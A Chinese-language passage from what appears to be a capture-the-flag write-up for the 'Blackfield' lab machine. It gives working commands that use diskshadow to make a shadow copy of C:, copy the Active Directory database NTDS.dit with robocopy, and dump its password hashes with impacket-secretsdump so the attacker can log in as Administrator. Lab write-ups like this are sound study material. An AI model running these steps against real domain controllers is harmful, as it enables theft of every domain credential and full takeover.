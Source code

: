 ### DiskShadow

有一种方式就是给驱动器创建卷影副本，然后我们将能够将 **ntds.dit** 文件复制出来，因为它不会被正在使用。

```
echo "set context persistent nowriters" | out-file ./diskshadow.txt -encoding ascii
echo "add volume c: alias temp" | out-file ./diskshadow.txt -encoding ascii -append
echo "create" | out-file ./diskshadow.txt -encoding ascii -append        
echo "expose %temp% z:" | out-file ./diskshadow.txt -encoding ascii -append
diskshadow.exe /s c:\temp\diskshadow.txt
```

上面的命令实质上是告诉 **diskshadow.exe** 创建一个 **C**盘 的副本，将其命名为 **Z**盘 并公开它（使其作为驱动器访问）。

将**NTDS.dit**进行备份操作，并且下载下来

```
robocopy /b Z:\Windows\NTDS C:\temp NTDS.dit
download C:\temp\NTDS.dit
```

使用**secretdump**获取**hash**

```
[root@kali] /home/kali/Blackfield  
❯ impacket-secretsdump  -system system.bak -ntds ntds.dit LOCAL > results.txt 
```

![](./images/image-74.png)

拿到**Administrator**的**hash**后进行登录，拿到**root.txt**

![](./images/image-75.png)
